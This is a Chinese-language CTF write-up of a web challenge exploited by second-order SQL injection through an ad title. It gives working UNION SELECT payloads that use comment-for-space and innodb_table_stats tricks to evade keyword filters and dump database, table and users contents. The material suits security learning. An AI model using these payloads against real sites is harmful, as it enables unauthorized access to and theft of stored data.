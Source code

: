 ![](<./img/Pasted image 20221125153820.png>)

---
首页长这样

![](<./img/Pasted image 20221125153836.png>)

---
`POST`的形式

![](<./img/Pasted image 20221125154449.png>)

---
尝试使用`admin`注册时提示该用户已被注册

![](<./img/Pasted image 20221125155037.png>)

使用用户名`aaa`和密码`123`注册并登录

![](<./img/Pasted image 20221125155328.png>)

![](<./img/Pasted image 20221125155358.png>)

![](<./img/Pasted image 20221125155509.png>)

`POST`内容

![](<./img/Pasted image 20221125155832.png>)

![](<./img/Pasted image 20221125155519.png>)

广告详情页是`/detail.php?id=xxx`的形式

![](<./img/Pasted image 20221125161128.png>)

尝试对`id`进行`sql`注入

无果QAQ

![](<./img/Pasted image 20221125161453.png>)

尝试`SSTI`

![](<./img/Pasted image 20221125161510.png>)

![](<./img/Pasted image 20221125161520.png>)

貌似对标题有效，但大括号还在，估计和`SSTI`无关，更偏向于`+`直接被过滤了，回到`sql`注入试试

当标题为`and`、`or`或`#`时会提示`标题含有敏感词汇`

![](<./img/Pasted image 20221125162659.png>)

对于payload `1'`，访问`detail.php`时发现`mysql`报错

![](<./img/Pasted image 20221125163216.png>)

确定是`sql`注入

为什么会用广告名进行`sql`查询呢QwQ

猜测后端是直接维护一张广告名和广告`id`的映射表，然后神奇地用广告名来查询广告内容了（下次记得还是用`id`查好，这样就能直接在url上注入了hiahiahia）

用`union select`检查注入点
```sql
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
麻了22个字段出题人这是要累死人（恼

![](<./img/Pasted image 20221125164232.png>)

注入点在2和3

什么，广告名都能注入的嘛，后端你查询咋写的QAQ，用来查询的字符串合着真的只有查询作用呗

---
那就拿广告名来注入叭

查看当前数据库
```sql
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
![](<./img/Pasted image 20221125164609.png>)

查看所有数据库

这里改成`where '1'='1`来补全后面的引号了
```sql
1'/**/union/**/select/**/1,group_concat(schema_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/information_schema.schemata/**/where/**/'1'='1
```

![](<./img/Pasted image 20221125164918.png>)

大意了，`information`的`or`被ban了QAQ

好的接下来是学习时间（**悲**

---
![](<./img/Pasted image 20221125170222.png>)

```sql
1'/**/union/**/select/**/1,group_concat(database_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```

---
查看表格

![](<./img/Pasted image 20221125170634.png>)

```sql
1'/**/union/**/select/**/1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```
![](<./img/Pasted image 20221125170819.png>)

读取FLAG_TABLE内容

这波不知道字段的查询真的惊到我了，`sql`还能这么玩的嘛
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from/**/(select/**/1/**/as/**/a/**/union/**/select/**/*/**/from/**/ctftraining.FLAG_TABLE)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
![](<./img/Pasted image 20221125173613.png>)

被骗了.jpg

读取`users`内容
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

![](<./img/Pasted image 20221125173943.png>)

学到了学到了QwQ

#Web #HTTP #SQL注入 #bypass #联合注入